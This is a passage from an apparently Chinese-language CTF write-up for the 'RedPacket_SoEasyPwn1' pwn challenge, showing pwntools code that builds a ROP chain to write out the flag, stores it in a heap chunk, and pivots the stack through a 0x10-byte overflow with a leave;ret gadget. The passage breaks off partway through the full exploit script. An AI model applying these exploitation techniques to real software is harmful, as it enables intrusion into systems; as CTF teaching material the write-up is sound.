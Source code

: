 	ROP_chain += p64(pop_rdi_ret)
	ROP_chain += p64(1)
	ROP_chain += p64(pop_rsi_ret)
	ROP_chain += p64(flag_addr)
	ROP_chain += p64(pop_rdx_ret)
	ROP_chain += p64(0x40)
	ROP_chain += p64(libc_base+libc.symbols['write'])

申请chunk，将ROP链写到chunk里

	add(4,4,ROP_chain)
	
	dbg()
![在这里插入图片描述](https://img-blog.csdnimg.cn/b613b47921cb452786368b3e600ad61f.png)
## 栈迁移
利用read(0, buf, 0x90uLL);buf0x80字节，正好可以溢出0x10字节，进行栈迁移，将程序迁移到我们最新申请的chunk处执行我们的ROP链。
![在这里插入图片描述](https://img-blog.csdnimg.cn/a332540cc3894122be74f0675a766eff.png)


	leave_ret = libc_base + 0x0000000000058373
	ru('Your input: ')
	sl('666')
	ru('What do you want to say?')
	#栈迁移
	sl('A'*0x80 + p64(file_name_addr) + p64(leave_ret))

	itr()

## exp

	# coding=utf-8
	from pwn import *
	context(endian='little',os='linux',arch='amd64',log_level='debug') 
	
	sh = process('./RedPacket_SoEasyPwn1')
	#sh = remote('node4.buuoj.cn','27283')
	
	libc=ELF("./libc-2.29.so")
	
	 
	 
	
	s       = lambda data               :sh.send(data)
	sa      = lambda delim,data         :sh.sendafter(delim, data)
	sl      = lambda data               :sh.sendline(data)
	sla     = lambda delim,data         :sh.sendlineafter(delim, data)
	r       = lambda num=4096           :sh.recv(num)
	ru      = lambda delims		    :sh.recvuntil(delims)
	itr     = lambda                    :sh.interactive()
	uu32    = lambda data               :u32(data.ljust(4,'\0'))
	uu64    = lambda data               :u64(data.ljust(8,'\0'))
	leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
	lg      = lambda address,data       :log.success('%s: '%(address)+hex(data))
	def dbg():
	        gdb.attach(sh)
	        pause()
	 